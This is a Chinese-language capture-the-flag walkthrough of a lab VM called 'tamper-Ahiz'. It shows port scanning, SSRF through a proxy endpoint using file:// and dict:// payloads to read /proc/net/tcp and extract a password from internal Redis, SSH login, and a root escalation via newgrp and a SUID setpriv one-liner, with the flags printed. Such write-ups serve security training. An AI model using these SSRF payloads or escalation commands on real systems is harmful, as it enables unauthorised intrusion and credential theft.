






# tamper-Ahiz

# 信息收集 

```
nmap -p-  192.168.100.39
Starting Nmap 7.95 ( https://nmap.org ) at 2026-07-09 20:32 EDT
Nmap scan report for 192.168.100.39
Host is up (0.0016s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
5000/tcp open  upnp
MAC Address: 08:00:27:AD:A8:D5 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 11.79 seconds


sudo dirsearch -u http://192.168.100.39
[20:33:00] 200 -  430B  - /assets/                                        
[20:33:00] 301 -  355B  - /assets  ->  http://192.168.100.39/assets/      
[20:33:01] 200 -  820B  - /cgi-bin/printenv                               
[20:33:01] 200 -    1KB - /cgi-bin/test-cgi                               
[20:33:08] 403 -  317B  - /server-status                                  
[20:33:08] 403 -  317B  - /server-status/    


 sudo dirsearch -u http://192.168.100.39:5000
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )
                                                                                                                                                                                                                                          
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/Desktop/reports/http_192.168.100.39_5000/_26-07-09_20-33-35.txt

Target: http://192.168.100.39:5000/

[20:33:35] Starting:                                                                                                                                                                                                                      
[20:33:45] 400 -   44B  - /api/proxy   
```

发现5000端口有一个/api/proxy



发现白名单





经过测试发现target是post和get一同传参

```
POST /api/proxy?target=http://ident.me HTTP/1.1
Host: 192.168.100.39:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/149.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

target=http://127.0.0.1:5000
```



# `利用 SSRF 扫描 localhost 端口`



# 发现内部的8080

```
{"status": "success", "target": "http://127.0.0.1:8080", "status_code": 400, "content": "Missing uri parameter"}
```

读取 `/proc/net/tcp`​，用 8080 的 `file://` 协议：

```
target=http://127.0.0.1:8080/?uri=file:///proc/net/tcp
```

```
 "status": "success",
  "target": "http://127.0.0.1:8080/?uri=file:///proc/net/tcp",
  "status_code": 200,
  "content": "  sl  local_address rem_address   st tx_queue rx_queue tr tm->when retrnsmt   uid  timeout inode                                                     \n   0: 0100007F:1F90 00000000:0000 0A 00000000:00000000 00:00000000 00000000 65534        0 3254 1 000000007c5d9695 100 0 0 10 0                      \n   1: 0100007F:18EA 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 3233 1 00000000e109cc38 100 0 0 10 0                      \n   2: 00000000:0016 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 3109 1 00000000fe853689 100 0 0 10 0                      \n   3: 00000000:1388 00000000:0000 0A 00000000:00000000 00:00000000 00000000 65534        0 2531 1 0000000049c6f63a 100 0 0 10 0                      \n   4: 0100007F:1F90 0100007F:9D1E 01 00000000:00000000 00:00000000 00000000 65534        0 98571 1 00000000c022d342 20 4 30 10 -1                    \n   5: 2764A8C0:1388 1064A8C0:0EFB 01 00000000:00000000 00:00000000 00000000 65534        0 98570 1 000000006e91544c 20 4 30 10 -1                    \n   6: 0100007F:9D1E 0100007F:1F90 01 00000000:00000000 00:00000000 00000000 65534        0 96640 2 00000000426742d1 20 0 0 10 -1                     \n
```

发现其他端口

```
🟢 LISTEN  127.0.0.1:8080  ->  0.0.0.0:0
🟢 LISTEN  127.0.0.1:6378  ->  0.0.0.0:0a
🟢 LISTEN  0.0.0.0:22  ->  0.0.0.0:0
🟢 LISTEN  0.0.0.0:5000  ->  0.0.0.0:0
```

先读一下用户



发现两个关键用户：**locally** 和 **looally**，共享同一家目录 `/home/locally`。  

# `枚举 Redis 键`

```
target=http://127.0.0.1:8080/?uri=dict://127.0.0.1:6378/RANDOMKEY
```

```
HTTP/1.1 200 OK
Content-Type: application/json
Connection: close
Content-Length: 217

{
  "status": "success",
  "target": "http://127.0.0.1:8080/?uri=dict://127.0.0.1:6378/RANDOMKEY",
  "status_code": 200,
  "content": "-ERR unknown subcommand 'libcurl'. Try CLIENT HELP.\r\n$6\r\nsecret\r\n+OK\r\n"
}

```

得到secret

读取键值

```
http://127.0.0.1:8080/?uri=dict://127.0.0.1:6378/GET:secret
```

```
HTTP/1.1 200 OK
Content-Type: application/json
Connection: close
Content-Length: 229

{
  "status": "success",
  "target": "http://127.0.0.1:8080/?uri=dict://127.0.0.1:6378/GET:secret",
  "status_code": 200,
  "content": "-ERR unknown subcommand 'libcurl'. Try CLIENT HELP.\r\n$16\r\nQChEWCDbOIsOvPY8\r\n+OK\r\n"
}

```

得到密码

```
QChEWCDbOIsOvPY8
```

‍

# ssh登录

`登录后在 shell 中发现当前用户是 **looally** 而非 locally`

`通过读取 SSH 配置文件找原因：`

```
PermitRootLogin yes

Match User locally
    ForceCommand setpriv --reuid=locally --regid=locally --clear-groups \
        bash -c 'bash --init-file <(echo "sudo -u looally bash -i")'
```

‍

```
ssh locally@192.168.100.39
locally@192.168.100.39's password: 
Tamper:~$ id
uid=1000(looally) gid=1000(locally) groups=1000(locally)
Tamper:~$ ^C
Tamper:~$ exit
exit
Tamper:~$ id
uid=1001(locally) gid=1000(locally)
Tamper:~$ ls
user.txt
Tamper:~$ cat user.txt 
flag{user-94e711071ec5a1c99c029f99ee1189f2}

```

‍

# root

find / -perm -4000 -type f 2>/dev/null

```
/bin/setpriv
/usr/bin/newgrp
/usr/bin/sudo
```

查看权限：

```
ls -l /bin/setpriv /usr/bin/newgrp
```

输出：

```
-rwsr-s--- 1 root shadow /bin/setpriv
-rwsr-sr-x 1 root root   /usr/bin/newgrp
```

`/bin/setpriv` 非常关键：

```
所有者 root
所属组 shadow
带 SUID 位
只有 root 和 shadow 组可以执行
```

查看 `/etc/group`：

```
grep shadow /etc/group
```

输出：

```
shadow:x:42:locally
```

说明 `locally`​ 理论上属于 `shadow` 组。

但是当前 `id` 显示：

```
uid=1001(locally) gid=1000(locally)
```

没有 shadow 附加组。

原因是 SSH ForceCommand 中使用了：

```
setpriv --clear-groups
```

清空了 supplementary groups。

`setpriv` 可以设置 UID 和 GID。

因为 `/bin/setpriv` 带 SUID root，执行时具备 root 权限，可以设置进程 UID/GID 为 0。

执行提权命令：

```
newgrp shadow -c "/bin/setpriv --reuid 0 --regid 0 --clear-groups /bin/sh"
```

‍

```
Tamper:~$ newgrp shadow -c "/bin/setpriv --reuid 0 --regid 0 --clear-groups /bin/sh"
~ # id
uid=0(root) gid=0(root)
~ # cat /root/root.txt 
flag{root-5a94a8c045fb3cc4e6734a7ed84543ee}

```

‍
